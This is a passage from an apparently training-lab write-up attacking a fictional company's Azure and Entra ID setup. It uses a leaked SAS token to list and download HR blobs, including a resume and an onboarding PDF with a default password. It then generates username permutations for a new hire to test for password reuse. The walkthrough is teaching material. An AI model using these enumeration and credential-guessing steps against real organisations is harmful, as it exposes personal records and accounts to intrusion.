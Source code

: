 Let's check the folder `candidate-resumes` which is different from what we saw in the commit. Let's list the blobs in this container.
```
└─PS> az storage blob list --account-name mbtfileshr --container-name candidate-resumes --sas-token "sv=2022-11-02&ss=bfqt&srt=sco&sp=rl&se=2099-05-06T06:03:29Z&st=2024-05-05T22:03:29Z&spr=https&sig=<REDACTED>" --output table
Name                                       Blob Type    Blob Tier    Length    Content Type     Last Modified              Snapshot
-----------------------------------------  -----------  -----------  --------  ---------------  -------------------------  ----------
Angelina Lee Resume.pdf                    BlockBlob    Hot          113254    application/pdf  2024-08-23T13:46:32+00:00
Mega Big Tech New Employee Onboarding.pdf  BlockBlob    Hot          42700     application/pdf  2024-05-07T22:08:06+00:00

```

Let's download PDF files
```
└─PS> az storage blob download --account-name mbtfileshr --container-name candidate-resumes --name "Angelina Lee Resume.pdf" --file "Angelina Lee Resume.pdf" --sas-token 'sv=2022-11-02&ss=bfqt&srt=sco&sp=rl&se=2099-05-06T06:03:29Z&st=2024-05-05T22:03:29Z&spr=https&sig=<REDACTED>' --output table
Finished[#############################################################]  100.0000%
Name                     Blob Type    Blob Tier    Length    Content Type     Last Modified              Snapshot
-----------------------  -----------  -----------  --------  ---------------  -------------------------  ----------
Angelina Lee Resume.pdf  BlockBlob                 113254    application/pdf  2024-08-23T13:46:32+00:00
```
```
└─PS> az storage blob download --account-name mbtfileshr --container-name candidate-resumes --name "Mega Big Tech New Employee Onboarding.pdf" --file "Mega Big Tech New Employee Onboarding.pdf" --sas-token 'sv=2022-11-02&ss=bfqt&srt=sco&sp=rl&se=2099-05-06T06:03:29Z&st=2024-05-05T22:03:29Z&spr=https&sig=<REDACTED>' --output table
Finished[#############################################################]  100.0000%
Name                                       Blob Type    Blob Tier    Length    Content Type     Last Modified              Snapshot
-----------------------------------------  -----------  -----------  --------  ---------------  -------------------------  ----------
Mega Big Tech New Employee Onboarding.pdf  BlockBlob                 42700     application/pdf  2024-05-07T22:08:06+00:00
```

`Mega Big Tech New Employee Onboarding.pdf`  contains default password for all Mega Big Tech new employees. The company recommends users to change this password but don't enforce it.

![](abuse-dynamic-groups-in-entra-id-for-privilege-escalation-5.png)

If Angelina Lee has been hired maybe she still has the default password set? 

First, we need to find the User Principal Name (UPN) for the user. We can use the [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to generate possible UPNs. Specify the `@megabigtech.com` domain using the `--suffix` paramter, with the Full Name specified after as a positional argument. Run the command to generate UPN permutations:
```
└─$ username-anarchy --suffix @megabigtech.com Angelina Lee > emails.txt
```
```
└─$ cat emails.txt 
angelina@megabigtech.com
angelinalee@megabigtech.com
angelina.lee@megabigtech.com
angelee@megabigtech.com
angelinal@megabigtech.com
a.lee@megabigtech.com
alee@megabigtech.com
```